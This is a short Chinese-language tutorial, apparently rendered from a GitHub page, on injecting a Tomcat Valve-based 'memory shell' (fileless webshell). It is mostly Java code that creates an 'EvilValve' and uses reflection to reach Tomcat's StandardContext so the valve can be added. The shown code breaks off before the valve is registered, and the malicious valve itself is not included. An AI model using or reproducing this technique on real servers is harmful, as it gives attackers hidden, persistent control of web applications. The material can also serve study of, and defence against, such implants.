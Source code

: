 #### 实现思路
1. 实现一个Valve类.  

Valve类的定义如下  
![](img/2023-01-31-11-23-58.png)  
实现其invoke方法即可在请求进行处理.  

2. 获取当前的Container,调用其addValve方法添加Valve,注入内存马.
#### 实现代码
```java
package org.example.Servlets;

import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

public class ValueServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        EvilValve evilValve = new EvilValve();
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
```